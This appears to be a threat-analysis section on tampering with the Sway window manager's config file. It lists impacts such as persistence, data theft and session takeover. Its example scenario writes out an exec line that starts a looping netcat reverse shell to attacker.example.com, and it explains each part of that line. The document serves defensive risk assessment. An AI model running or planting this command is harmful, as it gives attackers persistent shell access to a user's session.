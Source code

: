 The impact of successfully tampering with the Sway `config` file is **High**, as described, and can lead to:

* **Arbitrary Command Execution at Startup:** The attacker can inject commands that execute immediately when Sway starts. This can be used to:
    * **Establish Persistence:** Install backdoors, create new user accounts, or modify system startup scripts to maintain access even after reboots.
    * **Disable Security Measures:** Disable firewalls, security software, or logging mechanisms.
    * **Initial Data Exfiltration:** Begin collecting and exfiltrating sensitive data from the user's session.
* **Arbitrary Command Execution During User Session Events:** Sway configurations often include commands triggered by user actions like:
    * **Workspace Switching:** Inject commands to execute when the user switches workspaces. This could be used to monitor workspace activity or trigger actions based on workspace usage.
    * **Application Launching:** Inject commands to execute when specific applications are launched. This could be used to inject malicious code into legitimate applications or monitor application usage.
    * **Keybindings:**  While less direct configuration file tampering, if keybindings can execute arbitrary commands, manipulating these (even indirectly through config changes) could be impactful.
* **User Session Takeover:**  By executing malicious commands, the attacker effectively gains control over the user session. This allows them to:
    * **Monitor User Activity:** Log keystrokes, capture screenshots, and monitor network traffic.
    * **Steal Data:** Access and exfiltrate sensitive files, credentials, and personal information.
    * **Install Backdoors and Malware:**  Deploy persistent malware to maintain long-term access and control.
    * **Manipulate the User Interface:**  Display fake login prompts, redirect web traffic, or otherwise manipulate the user's environment for phishing or other malicious purposes.
    * **Denial of Service:**  Inject commands that crash Sway or make the system unusable, effectively denying the user access.
    * **Lateral Movement:**  Potentially use the compromised session as a stepping stone to attack other systems on the network.

**Example Attack Scenario:**

1. **Attacker gains local user privileges** through an unrelated vulnerability (e.g., exploiting a bug in a system service).
2. **Attacker modifies the `~/.config/sway/config` file** to include the following malicious command within a `exec` block (assuming Sway uses `exec` or similar for command execution):
   ```
   exec pkill -f swaybar && nohup bash -c 'while true; do nc -e /bin/bash attacker.example.com 4444; sleep 60; done' &
   ```
   This command does two things:
   * `pkill -f swaybar`:  (Optional) Disrupts the user's visual experience by killing the status bar, making the user potentially less suspicious initially.
   * `nohup bash -c 'while true; do nc -e /bin/bash attacker.example.com 4444; sleep 60; done' &`:  Establishes a reverse shell connection to `attacker.example.com` on port 4444. This shell will persist even if the initial connection is lost and will run in the background.
3. **The user restarts Sway or logs out and back in.**
4. **When Sway starts, the malicious command is executed.** The reverse shell connects to the attacker's machine, giving them full shell access to the user's session.
5. **The attacker now has complete control** and can perform any of the actions listed under "User Session Takeover."
